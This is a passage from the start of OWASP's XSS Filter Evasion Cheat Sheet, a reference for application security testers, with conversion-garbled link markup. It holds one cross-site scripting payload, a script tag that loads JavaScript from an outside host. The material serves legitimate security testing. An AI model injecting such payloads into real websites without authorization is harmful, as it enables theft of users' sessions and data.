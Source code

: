 ```yaml
---

layout: col-sidebar
title: XSS Filter Evasion Cheat Sheet
author: Jim Manico
contributors: Abdullah Hussam, Michael McCabe, Luke Plant, Randomm, David Shaw, ALange, Matt Tesauro, Adam Caudill, Anandu,
              DhirajMishra, Ono, Bill Sempf, Dan Wallis, Peter Mosmans, Dominique Righetto
tags: attacks, XSS, Cheat Sheets
permalink: /xss-filter-evasion-cheatsheet
---
```


# Introduction

This article is focused on providing application security testing professionals with a guide to assist in Cross Site Scripting testing. The initial contents of this article were donated to OWASP by RSnake, from his seminal XSS Cheat Sheet, which was at: `<http://ha.ckers.org/xss.html>`. That site now redirects to its new home here, where we plan to maintain and enhance it. The very first OWASP Prevention Cheat Sheet, the `[`XSS`` 
 ``(Cross``   ``Site``   ``Scripting)``   ``Prevention``   ``Cheat`` 
 ``Sheet`](XSS_\(Cross_Site_Scripting\)_Prevention_Cheat_Sheet "wikilink")`, was inspired by RSnake's XSS Cheat Sheet, so we can thank him for our inspiration. We wanted to create short, simple guidelines that developers could follow to prevent XSS, rather than simply telling developers to build apps that could protect against all the fancy tricks specified in rather complex attack cheat sheet, and so the `[` 
 ``OWASP``   ``Cheat``   ``Sheet`` 
 ``Series`](Cheat_Sheets "wikilink")` was born.`

# Tests

This cheat sheet lists a series of XSS attacks that can be used to
bypass certain XSS defensive filters. Please note that input filtering
is an incomplete defense for XSS which these tests can be used to
illustrate.

## Basic XSS Test Without Filter Evasion

This is a normal XSS JavaScript injection, and most likely to get caught
but I suggest trying it first (the quotes are not required in any modern
browser so they are omitted here):

    <SCRIPT SRC=`[`http://xss.rocks/xss.js></SCRIPT>`](http://xss.rocks/xss.js%3E%3C/SCRIPT%3E)`;`

## XSS Locator (Polygot)

The following is a "polygot test XSS payload." This test will execute in
multiple contexts including html, script string, js and url. Thank you
to [Gareth Heyes](https://twitter.com/garethheyes) for this
[contribution](https://twitter.com/garethheyes/status/997466212190781445).
